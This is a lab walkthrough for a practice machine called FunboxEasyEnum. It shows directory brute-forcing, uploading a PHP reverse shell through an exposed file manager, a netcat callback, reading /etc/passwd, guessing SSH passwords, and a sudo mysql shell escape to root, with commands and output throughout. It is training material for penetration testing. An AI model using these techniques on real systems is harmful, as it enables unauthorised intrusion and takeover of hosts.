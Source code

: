 Exploitation Guide for FunboxEasyEnum
Summary

In this walkthrough, we’ll exploit a file upload vulnerability in a web application to gain a foothold on the target. This leads to remote code execution. We’ll then use simple, manual password guessing to escalate our privileges and abuse the user’s sudo permissions on the mysql binary to spawn a root shell.
Enumeration
Nmap

We’ll begin with a simple nmap scan.

┌──(kali㉿kali)-[~]
└─$ sudo nmap 192.168.120.148     
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-16 10:27 EST
Nmap scan report for 192.168.120.148
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

If we browse the web server on port 80, we find a default Apache web page.
GoBuster

Next, we’ll try brute-forcing the web server’s hidden files and directories with the /usr/share/dirb/wordlists/common.txt wordlist, searching for PHP, text, and HTML files.

(kali㉿kali)-[~] └─$ gobuster dir -u http://192.168.120.148 -w /usr/share/dirb/wordlists/common.txt -x php,txt,html

===============================================================
Gobuster v3.0.1
...
/index.html (Status: 200)
/javascript (Status: 301)
/mini.php (Status: 200)
/phpmyadmin (Status: 301)
/robots.txt (Status: 200)
...

The output includes mini.php which contains a custom Zerion Mini Shell 1.0 application.

Exploitation
File Upload Vulnerability

This page may allow uploads to the web root (/var/www/html/). Since the PHP file format seems to be supported, let’s try uploading a PHP reverse shell. We’ll update the IP address and port number as needed.

┌──(kali㉿kali)-[~]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ sed -i "s/$ip = '127.0.0.1';/$ip = '192.168.118.5';/g" php-reverse-shell.php                            
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ sed -i "s/$port = 1234;/$port = 4444;/g" php-reverse-shell.php
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$

Next, we’ll click Browse, select our reverse shell file, and click upload. Once uploaded, the file appears in the web root directory listing. Let’s start a Netcat listener on port 4444 and trigger our shell by navigating to http://192.168.120.148/php-reverse-shell.php.

┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.148/php-reverse-shell.php                                          
WARNING: Failed to daemonise.  This is quite common and not fatal.
Successfully opened reverse shell to 192.168.118.5:4444
...

Our Netcat listener presents us with a shell as the www-data user.

┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.148] 34362
Linux funbox7 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:54:03 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Escalation
User Enumeration

As part of our enumeration efforts, let’s check the user accounts on the target:

$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
karla:x:1000:1000:karla:/home/karla:/bin/bash
...
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh

Although the file contains the password hash for the user oracle, cracking that password finds hiphop , but not further for privesc.

The passwd file contains several users, and every user, except for lissy, has a home directory:

$ ls -l /home
total 20
drwxr-xr-x 2 goat   goat   4096 Feb 16 13:25 goat
drwxr-xr-x 2 harry  harry  4096 Jan 28 12:03 harry
drwxr-xr-x 2 karla  karla  4096 Feb 16 13:23 karla
drwxr-xr-x 2 oracle oracle 4096 Feb 16 13:23 oracle
drwxr-xr-x 2 sally  sally  4096 Jan 28 12:03 sally

SSH

We could use a tool like hydra to mount an online SSH brute-force attack (which will take several minutes), but let’s take a step back and try some less-complicated password attempts. We’ll begin by attempting the username as the password for each user. Here are the username and password pairs we’ll attempt:

goat:goat
harry:harry
karla:karla
oracle:oracle
sally:sally

One of the credential pairs (goat:goat) works!

┌──(kali㉿kali)-[~]
└─$ ssh goat@192.168.120.148
goat@192.168.120.148's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64)
...
goat@funbox7:~$ id
uid=1003(goat) gid=1003(goat) groups=1003(goat),111(ssh)

Sudo Abuse

Now, let’s attempt to escalate our privileges. We’ll begin with a quick sudo scan:

goat@funbox7:~$ sudo -l
Matching Defaults entries for goat on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goat may run the following commands on funbox7:
    (root) NOPASSWD: /usr/bin/mysql

The scan reveals that we can run /usr/bin/mysql as root through sudo. A GTFOBins article presents a simple command that may give us a root shell.

goat@funbox7:~$ whoami
goat
goat@funbox7:~$ sudo /usr/bin/mysql -e '\! /bin/sh'
# whoami
root


